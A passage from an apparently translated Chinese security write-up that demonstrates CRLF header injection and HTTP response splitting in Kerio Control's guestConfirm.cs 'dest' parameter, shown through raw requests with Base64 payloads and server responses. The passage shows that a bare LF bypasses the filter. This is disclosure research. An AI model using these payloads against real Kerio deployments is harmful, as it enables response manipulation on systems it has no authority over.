   
它又成功了！这意味着 CRLF 序列没有被正确过滤/删除，因此我们可以将任意 HTTP 标头注入 Kerio Control 生成的 HTTP 响应中……但是HTTP 响应拆分攻击呢？要使这种攻击奏效，我们应该能够注入两个 CRLF 序列，后跟 HTTP 响应主体（的开头）。那么，让我们尝试以下操作。  
  
请求内容为“ Test\r\n\r\nTest ”，以 Base64 编码：  
  
```
GET /nonauth/guestConfirm.cs?dest=VGVzdA0KDQpUZXN0 HTTP/1.1
Host: 192.168.123.64:4081
Connection: close
```  
  
  
回复：  
  
```
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: Close
Content-Type: text/html
Date: Thu, 5 Dec 2024 11:24:20 GMT
Expires: Wed, 4 Jun 1980 06:02:09 GMT
Location: Test
Test
Pragma: no-cache
Server: Kerio Control Embedded Web Server
Strict-Transport-Security: max-age=63072000, includeSubDomains, preload
X-UA-Compatible: IE=edge

If your browser does not redirect automatically, please click this link: <a href="TestTest">Test

Test</a>
```  
  
  
正如您所注意到的，HTTP 标头中的双 CRLF 序列已被忽略，并且我们仍然得到与之前几乎相同的响应（“ Location ”HTTP 标头后只有一个 CRLF 序列）……这是结局吗？还没有！在放弃之前，我尝试仅提交换行符 (LF)，而不提交回车符 (CR)，这成功了！😎  
  
请求内容为“ Test\n\nTest ”以Base64编码后作为payload:  
  
```
GET /nonauth/guestConfirm.cs?dest=VGVzdAoKVGVzdA== HTTP/1.1
Host: 192.168.123.64:4081
Connection: close
```  
  
  
回复：  
  
```
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: Close
Content-Type: text/html
Date: Thu, 5 Dec 2024 11:34:58 GMT
Expires: Wed, 4 Jun 1980 06:02:09 GMT
Location: Test


Test
Pragma: no-cache
Server: Kerio Control Embedded Web Server
Strict-Transport-Security: max-age=63072000, includeSubDomains, preload
X-UA-Compatible: IE=edge

If your browser does not redirect automatically, please click this link: <a href="TestTest">Test

Test</a>
```  
  